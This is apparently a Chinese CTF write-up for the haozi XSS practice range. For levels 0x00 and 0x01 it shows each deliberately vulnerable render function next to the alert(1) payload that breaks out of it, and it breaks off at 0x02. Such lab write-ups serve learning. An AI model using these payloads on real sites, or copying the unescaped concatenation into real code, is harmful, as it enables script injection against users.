```yaml
---
title: haozi_XSS靶场通关记录
tags: XSS
typora-root-url: ../
---
```


#### 前言

XSS平台：https://xss.haozi.me/

Github：https://github.com/haozi/xss-demo



#### writeup

##### 0x00

```javascript
// server code
function render (input) {
  return '<div>' + input + '</div>'
}
```

```javascript
// input code
<script>alert(1)</script>

// 常见payload
```

##### 0x01

```javascript
// server code
function render (input) {
  return '<textarea>' + input + '</textarea>'
}
```

```javascript
// input code
</textarea><script>alert(1)</script><textarea>

// 在textarea内需闭合textarea标签
```

##### 0x02

```javascript
// server code
function render (input) {
  return '<input type="name" value="' + input + '">'

```
